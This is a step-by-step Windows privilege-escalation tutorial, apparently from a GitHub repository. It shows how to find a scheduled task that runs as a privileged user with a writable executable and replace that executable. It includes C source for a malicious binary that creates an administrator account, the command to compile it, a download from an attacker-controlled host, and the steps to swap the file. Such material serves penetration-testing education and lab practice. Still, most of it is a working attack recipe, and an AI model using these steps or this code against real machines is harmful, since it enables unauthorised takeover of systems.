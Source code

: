 ## Scheduled Tasks

### Overview
Windows Task Scheduler automates tasks such as updates, cleanup activities, or custom scripts. Each task contains **triggers** (conditions to execute) and **actions** (programs or scripts to run). If a scheduled task:
1. Runs as a privileged user (e.g., `SYSTEM` or `Administrator`), and
2. The specified action points to a writable executable or script,

then it can be abused for **privilege escalation**.

This tutorial will demonstrate how to identify and exploit misconfigured scheduled tasks.

---

### Step 1: Enumerate Scheduled Tasks
To identify tasks that may lead to privilege escalation, run **WinRecon.ps1**:

1. **Option 2**: Run Custom Recon - (Select which functions to enable).
2. **Option 17**: Enumerate scheduled tasks and check for writable executables.

#### Example Output:
![image](https://github.com/user-attachments/assets/592ec7ce-fd02-4831-ac20-9f0c600b4bab)


In this example, the scheduled task **\Microsoft\CacheCleanup**:
- Runs as `daveadmin` (a privileged user).
- Executes `BackendCacheCleanup.exe`, located in a writable directory: `C:\Users\steve\Pictures`.
- Runs frequently, as indicated by the **Next Run Time**.

---

### Step 2: Verify Permissions on the Executable
Confirm that you have **Full Control** or **Write** permissions on the executable file specified in the task action:

```powershell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

**Output Example**:
```plaintext
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(F)
                                                  BUILTIN\Administrators:(F)
                                                  CLIENTWK220\steve:(F)
```

The `(F)` indicates **Full Control**, meaning we can replace the executable.

---

### Step 3: Create a Malicious Executable
The goal is to replace the executable file with a malicious version that creates a local administrator user.

#### Malicious Executable Code
We will use C code to add a user and place them in the Administrators group:

```c
#include <stdlib.h>

int main() {
    system("net user taskmgrsvc Password123! /add");
    system("net localgroup administrators taskmgrsvc /add");
    return 0;
}
```

#### Compile the Executable
On your attacker machine, compile the C code:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

---

### Step 4: Replace the Scheduled Task Executable
Transfer the malicious executable to the target machine and replace the original task file:

1. Host the file using a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target machine, download the malicious file:
   ```powershell
iwr -Uri http://<attacker_ip>/adduser.exe -OutFile BackendCacheCleanup.exe
   ```
3. Backup the original executable and replace it:
   ```powershell
   move C:\Users\steve\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
   move .\BackendCacheCleanup.exe C:\Users\steve\Pictures\
   ```
---

### Step 5: Wait for the Task to Execute
The scheduled task will execute automatically based on its trigger. Since this task runs every minute, wait for a short time, then verify that the malicious executable has been executed.

---

### Step 6: Verify Exploitation
Check if the user `taskmgrsvc` has been created and added to the local Administrators group:

1. List all user accounts:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output Example**:
```plaintext
User accounts for \CLIENTWK220
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the user `taskmgrsvc` was successfully added to the Administrators group.

---

### Step 7: Cleanup
Restore the original executable and clean up any traces of the exploit:

1. Delete the malicious executable:
   ```powershell
   del C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
2. Restore the original file:
   ```powershell
   move BackendCacheCleanup.exe.bak C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
3. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### References
- [HackTricks - Scheduled Tasks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/scheduled-tasks)

---

